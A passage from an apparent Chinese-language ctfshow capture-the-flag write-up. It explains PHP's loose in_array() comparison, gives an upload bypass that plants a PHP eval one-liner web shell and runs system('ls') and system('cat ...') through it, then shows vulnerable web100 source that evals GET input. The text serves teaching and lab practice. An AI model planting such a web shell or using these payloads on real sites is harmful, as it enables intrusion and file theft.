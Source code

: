 这题突破点在in_array()函数

### in_array()

in_array：(PHP 4, PHP 5, PHP 7)

功能：检查数组中是否存在某个值

定义： bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )

在 $haystack中搜索 $needle，**如果第三个参数 $strict的值为 TRUE，则 in_array()函数会进行强检查**，检查 $needle的类型是否和 $haystack中的相同。如果找到 $haystack，则返回 TRUE，否则返回 FALSE。

很明显，这题再使用in_array()函数时并没有设置第三个参数为TRUE,所以此时是==的弱类型比较。

**绕过方法:**
传入n=1.php。因为PHP在使用 in_array()函数判断时，会将 1.php强制转换成数字1，而数字1在 range(1,24)数组中，当随机生成的数字正好是1时绕过 in_array()函数判断，导致任意文件上传漏洞。

payload:

```
?n=1.php   
post:   content=<?php eval($_POST[1]);?> 
```

多试几次，直到不报错的那一次，说明成功传入一句话。

然后访问`https://url/1.php`,再post传入`1=system('ls');`
![在这里插入图片描述](img/2a53d086f78657fd968788e5f5074285.png)
再访问这个flag36d.php,即post: 1=`system('cat flag36d.php');`

然后在网页源码中看到flag

## web100

源码：

```
<?php
highlight_file(__FILE__);
include("ctfshow.php");

$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }  
} 
```
